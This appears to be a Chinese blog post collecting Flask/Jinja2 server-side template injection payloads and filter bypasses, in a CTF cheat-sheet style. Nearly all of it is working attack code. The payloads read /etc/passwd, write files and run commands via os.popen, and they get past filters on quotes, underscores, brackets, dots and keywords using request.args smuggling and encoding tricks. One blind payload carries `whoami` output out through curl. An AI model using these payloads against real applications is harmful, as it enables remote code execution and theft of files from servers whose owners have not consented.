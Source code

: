 ```yaml
---
layout:     post
title:      Flask ssti
subtitle:   总结一下ssti常见payload 和 绕过方式
date:       2020-05-20
author:     BY Diego
header-img: img/wenzhang/post-bg-flask-ssti.jpg
catalog: true
tags:
    - Python
    - 命令注入
---
```


# 一、 常见payload

```
__class__ 返回调用的参数类型
__bases__ 返回类型列表
__mro__ 此属性是在方法解析期间寻找基类时考虑的类元组
__subclasses__() 返回object的子类
__globals__ 函数会以字典类型返回当前位置的全部全局变量 与 func_globals 等价
__getattribute__ 使用实例访问属性时,调用该方法
__dict__ 查看方法
```

获取object

```python
''.__class__.__mro__[2]  #python2
''.__class__.__mro__[1] #python3
{}.__class__.__bases__[0]
().__class__.__bases__[0]
[].__class__.__bases__[0]
request.__class__.__mro__[8] #针对jinjia2/flask为[9]适用 [10]
```

类似request的还可以利用 url_for, g, request, namespace, lipsum, range, session, dict, get_flashed_messages, cycler, joiner, config

通过self.\_\_dict__ 查看


**获取索引**
```python
''.__class__.__mro__[2].__subclasses__().index(file)
```

**读文件**
python2
```python
().__class__.__bases__[0].__subclasses__()[40]('/etc/passwd').read()

''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['file']('/etc/passwd').read()
```
python3
```python
{ % for c in [].__class__.__base__.__subclasses__() % }{ % if c.__name__=='catch_warnings' % }{ {  c.__init__.__globals__['__builtins__'].open('filename', 'r').read() } }{ % endif % }{ % endfor % }
```

**写文件**
```python
().__class__.__bases__[0].__subclasses__()[40]('/tmp').write('test')

''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['file']('test').write("test")
```

**执行命令**
python3
```python
{ % for c in [].__class__.__base__.__subclasses__() % }{ % if c.__name__=='catch_warnings' % }{ {  c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('id').read()") } }{ % endif % }{ % endfor % }
```
python2 (针对catch_warnings模块，python3也可只要知道模块对应位置)
```python
''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.linecache.os.popen("whoami").read()
```
还有下面方法，直接贴别人图了，（懒）
[![Y5LJMj.png](https://s1.ax1x.com/2020/05/19/Y5LJMj.png)](https://imgchr.com/i/Y5LJMj)

**使用脚本寻找(因环境而异)**
```python
_list =[].__class__.__base__.__subclasses__()
for c in _list:
	try:
		if "open" in c.__init__.__globals__['__builtins__']:
			print(c.__name__,_list.index(c))
	except Exception as e:
		pass
```
读文件
```python
{ { [].__class__.__base__.__subclasses__()[对应数].__init__.__globals__['__builtins__'].open("/etc/passwd").read()} }
```
[![Y5LYss.png](https://s1.ax1x.com/2020/05/19/Y5LYss.png)](https://imgchr.com/i/Y5LYss)

命令执行找eval 或者\_\_import__,除去引用os模块还可以用其他可执行命令的模块 commands 等
```python
{ { [].__class__.__base__.__subclasses__()[对应数字].__init__.__globals__['__builtins__'].eval("__import__('os').popen('whoami').read()")} }

{ { [].__class__.__base__.__subclasses__()[对应数字].__init__.__globals__['__builtins__'].__import__('os').popen('whoami').read()} }
```


# 二、 绕过

## ① 单双引号过滤
```python
__init__.__globals__['__builtins__']
# 转化成如下形式
__init__.__globals__.__builtins__
```

使用"request.args" 或者 "request.values"
python2 读举例
```python
?name={ { ().__class__.__bases__[0].__subclasses__()[40](request.args.aa).read()} }&aa=/etc/passwd
```
values 同理 数据为post

还可用set 语句
```python
{ % set chr=[].__class__.__base__.__subclasses__()[61].__init__.__globals__.__builtins__.chr % }{ { [].__class__.__base__.__subclasses__()[40](chr(47)+chr(102)+chr(108)+chr(97)+chr(103)).read()} }
```

## ② 下划线过滤
**使用"request.args" 或者 "request.values"**
```python
?name={ { [][request.args.class][request.args.base][request.args.sub]()[40]('/etc/passwd').read()} }&class=__class__&base=__base__&sub=__subclasses__
```
![YI1Af0.png](https://s1.ax1x.com/2020/05/19/YI1Af0.png)

**args values 被过滤？？**
```python
{ { request.headers['X-Forwarded-For']} }
```
![Yo6Wwj.png](https://s1.ax1x.com/2020/05/20/Yo6Wwj.png)

**畸形方法获取_**
```python
[[]|map|string|list][0][20]
```
[![YoDrKH.png](https://s1.ax1x.com/2020/05/20/YoDrKH.png)](https://imgchr.com/i/YoDrKH)


先将
```python
[].__class__.__base__.__subclasses__()[40]('/etc/passwd').read()
```
转化成如下
```python
{ { [[]|attr('__class__')|attr('__base__')|attr('__subclasses__')()][0][40]('/etc/passwd')|attr('read')()} }
```
再利用join特性将_分离([1,2,3]|join 结果为123)
```python
{ { [[]|attr(['_'*2,'class','_'*2]|join)|attr(['_'*2,'base','_'*2]|join)|attr(['_'*2,'subclasses','_'*2]|join)()][0][40]('/etc/passwd')|attr('read')()} }
```
最后_替换[[]|map|string|list][0][20]
```python
{ { [[]|attr([[[]|map|string|list][0][20]*2,'class',[[]|map|string|list][0][20]*2]|join)|attr([[[]|map|string|list][0][20]*2,'base',[[]|map|string|list][0][20]*2]|join)|attr([[[]|map|string|list][0][20]*2,'subclasses',[[]|map|string|list][0][20]*2]|join)()][0][40]('/etc/passwd')|attr('read')()} }
```
![Yor8W8.png](https://s1.ax1x.com/2020/05/20/Yor8W8.png)

## ③ 中括号被过滤

利用该特性a\[2]== a.\_\_getitem__(2)
```python
{ { ().__class__.__bases__.__getitem__(0).__subclasses__().__getitem__(40)('/etc/passwd').read()} }
```

## ④ 双中括号过滤
利用{ % % }
```python
{ % if ''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.linecache.os.popen('curl http://127.0.0.1:7999/?i=`whoami`').read()=='p' % }1{ % endif % }
```
相当于盲命令执行，利用curl将执行结果带出来
或者而类似布尔注入

## ⑤ 关键字绕过
**base64编码绕过**
\_\_getattribute__使用实例访问属性时,调用该方法
```python
{ { [].__getattribute__('X19jbGFzc19f'.decode('base64')).__base__.__subclasses__()[40]("/etc/passwd").read()} }
```

**字符串拼接绕过**
```python
[].__class__.__base__.__subclasses__()[59].__init__.__globals__['__buil'+'tins__']
```

**format函数**
```python
{ { 'fl{0}g'.format('a') } }
```
![YoyfG6.png](https://s1.ax1x.com/2020/05/20/YoyfG6.png)
## ⑥ . 被过滤
使用原生JinJa2函数|attr()
```python
?name={ { ()[(request|attr("args"))["class"]][(request|attr("args"))["base"]][(request|attr("args"))["sub"]]()[40]('/etc/passwd').read()} }&class=__class__&base=__base__&sub=__subclasses__
```

另一种形式（其他编码也可base64等）
```python
{ { []["5F5F636C6173735F5F"["decode"]("hex")]["5F5F626173655F5F"["decode"]("hex")]["5F5F737562636C61737365735F5F"["decode"]("hex")]()[40]("/etc/passwd")["72656164"["decode"]("hex")]() } }
```
![YoGozq.png](https://s1.ax1x.com/2020/05/20/YoGozq.png)

变形
```python
{ { []['\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f']['\x5f\x5f\x62\x61\x73\x65\x5f\x5f']['\x5f\x5f\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73\x5f\x5f']()[40]('/etc/passwd')['\x72\x65\x61\x64']() } }
```

畸形方法
获取·
```python
{ { [1|float|string|list][0][1] } }
```
![Yo0pqI.png](https://s1.ax1x.com/2020/05/20/Yo0pqI.png)

## ⑦ 下划线、引号、中括号 被过滤

利用上述方法进行组合，构造如下payload

```python
?name={ { ((()|attr(request.args.class)|attr(request.args.base)|attr(request.args.sub)())|attr(request.args.geti)(40)(request.args.file)).read()} }&class=__class__&base=__base__&sub=__subclasses__&geti=__getitem__&file=/etc/passwd
```
![YIwr6A.png](https://s1.ax1x.com/2020/05/19/YIwr6A.png)


# 三、参考

[SSTI: Bypass in a hard place, Fort Knox — ASIS Quals 2019](https://medium.com/@elberandre/ssti-bypass-in-a-hard-place-fort-knox-asis-quals-2019-91bc35a349d3)

[SSTI Bypass 分析](https://www.secpulse.com/archives/115367.html)

[Flask/Jinja2模板注入中的一些绕过姿势](https://p0sec.net/index.php/archives/120/)

[浅析SSTI(python沙盒绕过)](http://flag0.com/2018/11/11/%E6%B5%85%E6%9E%90SSTI-python%E6%B2%99%E7%9B%92%E7%BB%95%E8%BF%87/)
